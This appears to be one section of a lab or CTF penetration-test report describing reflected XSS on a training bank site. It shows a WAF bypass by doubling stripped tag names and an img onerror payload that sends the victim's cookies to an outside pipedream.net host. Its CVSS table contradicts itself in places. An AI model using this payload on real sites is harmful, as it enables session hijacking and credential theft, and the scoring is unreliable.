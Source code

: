 For more information on input validation, see [OWASP's article on Input Validation](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html).
For more information visit [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection).

<div class="pagebreak"> </div>

## 1.6. ctfproxy2.quoccabank.com/api/science-tomorrow (Reflected XSS)
**Threat - Reflected XSS in Comment Field**
### Details
| Metric                   | Description |
| ------------------------ | ----------- |
| Access Vector (AV)       | **Network (N)** - A victim must access a vulnerable system via the network. |
| Attack Complexity (AC)   | **Low (L)** - The exploit is repeatable without the requirement of system specific reconnaissance or dealing with race conditions. |
| Privileges Required (PR) | **None (N)** - An attacker must possess some user level privileges to store the malicious scripts in the vulnerable application field. |
| User Interaction (UI)    | **Required (R\)** - The victim needs to navigate to a web page on the vulnerable server that contains malicious scripts injected by the attacker. |
| Scope (S)                | **Unchanged (U)** - The exploited vulnerability can only affect resources managed by the same authority. |
| Confidentiality (C\)     | **None (N)** - There is no loss of confidentiality within the impacted component. |
| Integrity (I)            | **None (N)** - There is no loss of integrity within the impacted component. |
| Availability (A)         | **High (H)** - In the worst case scenario, an attacker can shut down the sturec application, or otherwise disrupt service for all users. |

**CVSS Base Score: 6.5 (MEDIUM)**

### Steps to Reproduce
This threat is located on the ctfproxy2.quoccabank.com/api/science-tomorrow domain, pertaining to how the WAF filters user input in the search field.
- The filter comment option simply reflects the input as a search query in the URL
- Initial testing with payloads such as `<script>alert(1)</script>` show us that there is a WAF in place.
![](https://i.imgur.com/zPl9Ju4.png)
*This shows the WAF deny-listing words*
- This WAF deny-lists specific tags such as`<script>` however we can simply bypass it by using an `<img>` tag.
- The WAF also removes specific strings in the search query. Sending a query with the payload `<img>` removes the `img` string that is reflected.
![](https://i.imgur.com/A4iArKJ.png)
*This shows the WAF removing specific words*
- However this can be bypassed by simply doubling up the word i.e.`<imimgg>a`
![](https://i.imgur.com/YCWAcla.png)
*This shows the WAF successfully bypassed*
- We can then craft a payload to steal the cookies from the user
```javascript=
<imimgg src=a oneonerrorrror=document.location='https://en4wk9uin6mam8n.m.pipedream.net/?a='+document.cookie>a
```
![](https://i.imgur.com/pTG7JUB.png)
*This shows the the insertion point for the script*
- Once the filter comments button has been clicked, the URL of the page changes to include the JavaScript. Reporting the page to admin will result in the Admin's credentials being stolen and sent to the domain specified.
